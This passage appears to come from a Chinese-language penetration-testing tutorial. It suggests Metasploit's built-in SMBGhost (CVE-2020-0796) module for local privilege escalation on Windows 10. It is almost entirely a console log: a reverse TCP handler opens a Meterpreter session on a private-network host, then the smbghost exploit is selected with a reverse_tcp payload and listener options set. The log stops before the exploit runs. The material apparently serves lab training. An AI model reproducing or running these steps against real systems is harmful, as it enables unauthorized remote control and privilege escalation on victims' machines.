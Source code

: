或者使用 MSF的内置EXP windows/local/cve_2020_0796_smbghost 来本地提权

```
msf6 exploit(multi/handler) > set lhost 192.168.142.19
lhost => 192.168.142.19
msf6 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.142.19:4444 
[*] Sending stage (200262 bytes) to 192.168.142.61
[*] Meterpreter session 2 opened (192.168.142.19:4444 -> 192.168.142.61:51757) at 2020-11-08 15:28:20 +0800

meterpreter > 
meterpreter > getuid
Server username: DESKTOP-RL1VAD8\wy
meterpreter > background
msf6 exploit(multi/handler) > search cve_2020

Matching Modules
================

   #  Name                                                          Disclosure Date  Rank       Check  Description
   -  ----                                                          ---------------  ----       -----  -----------
   0  auxiliary/admin/sap/cve_2020_6287_ws_add_user                 2020-07-14       normal     Yes    SAP Unauthenticated WebService User Creation
   1  exploit/linux/misc/cve_2020_13160_anydesk                     2020-06-16       normal     Yes    AnyDesk GUI Format String Write
   2  exploit/windows/local/cve_2020_0668_service_tracing           2020-02-11       excellent  No     Service Tracing Privilege Elevation Vulnerability
   3  exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move  2020-03-10       excellent  Yes    Background Intelligent Transfer Service Arbitrary File Move Privilege Elevation Vulnerability
   4  exploit/windows/local/cve_2020_0796_smbghost                  2020-03-13       good       Yes    SMBv3 Compression Buffer Overflow


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/local/cve_2020_0796_smbghost                                                                                

msf6 exploit(multi/handler) > use 4
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2020_0796_smbghost) > show options 
Module options (exploit/windows/local/cve_2020_0796_smbghost):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.142.19   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 10 v1903-1909 x64

```